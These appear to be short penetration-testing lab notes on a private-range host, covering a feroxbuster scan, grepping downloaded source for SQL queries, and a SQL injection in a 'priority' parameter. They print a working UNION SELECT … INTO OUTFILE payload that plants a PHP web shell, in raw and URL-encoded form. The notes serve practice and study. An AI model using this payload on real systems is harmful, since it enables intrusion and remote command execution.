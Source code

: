 - Discovered few non standard ports with webservers
- Ran ferobuster and found a login
```bash
feroxbuster -u http://192.168.227.147:50080 -r   
```
- There were a source code file where we can the command below after downloading
```bash
grep -Rnw './' -e 'SELECT'
```
- Found a file phpinfo.php and extracted the server root
- Found a SQLi in a parameter.
![[Pasted image 20230915183542.png]]

and injected with POST because get gave an error,

POST /issue/checkByPriority?priority=Normal%27+UNION+SELECT+%22%3C%3Fphp+echo+system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22+INTO+OUTFILE+%27%2Fsrv%2Fhttp%2Fcma.php%27+--+%2F%2F HTTP/1.1

```sql
Normal' UNION SELECT "<?php echo system($_GET['cmd']);?>" INTO OUTFILE '/srv/http/cma.php' -- //
```

